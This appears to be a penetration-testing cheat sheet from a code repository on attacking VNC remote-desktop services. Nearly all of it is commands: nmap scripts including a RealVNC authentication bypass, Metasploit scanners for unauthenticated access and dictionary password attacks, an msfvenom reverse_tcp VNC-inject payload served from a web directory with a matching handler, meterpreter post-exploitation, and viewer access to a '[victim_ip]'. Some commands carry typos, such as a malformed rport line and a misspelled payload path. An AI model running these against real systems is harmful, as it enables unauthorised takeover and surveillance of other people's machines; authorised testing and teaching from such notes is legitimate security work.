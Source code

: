 ### Virtual Network Computing (VNC)
Gaphical desktop sharing system that uses the Remote Frame Buffer protocol (RFB) to remotely control another computer. It transmits the keyboard and mouse events from one computer to another. 

### nmap scan with nse script
```
nmap -sV --script realvnc-auth-bypass.nse [victim_ip] -p 5900

nmap --script vnc-info [victim_ip] -p 5901
```

### Authentication Bypass exploit (version RealVNC 4.1.0/4.1.1)
```
https://www.exploit-db.com/exploits/36932
```

### MSF VNC auth check with none scanner
```
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf > set RHOSTS [target_ip]
msf > set THREADS [int]
msf > run
```

### MSF VNC Password attack
```
msf > use auxiliary/scanner/vnc/vnc_login
msf > set rhosts [victim_ip]
msf > set rport [victim_ip
msf > set pass_file /your/dictionary/file
msf > run
```

### MSFVenom VNC payload
```
msfvenom -p windows/vncinject/reverse_tcp lhost=[your_ip] lport=[your_port] -f exe > /var/www/html/vnc.exe

msf > use exploit/multi/handler
msf > set payload/widnows/vncinject/reverse_tcp
msf > set lport [your_ip]
msf > set lport [your_port]
msf > set viewonly false
msf > run
```

### VNC Post Exploitation
```
meterpreter > run vnc
```

### VNC access
```
sudo apt install tigervnc-viewer
vncviewer [victim_ip]:[victim_port]
```

#### References
- https://en.wikipedia.org/wiki/Virtual_Network_Computing
- https://www.offensive-security.com/metasploit-unleashed/vnc-authentication/
- https://www.hackingarticles.in/vnc-penetration-testing/
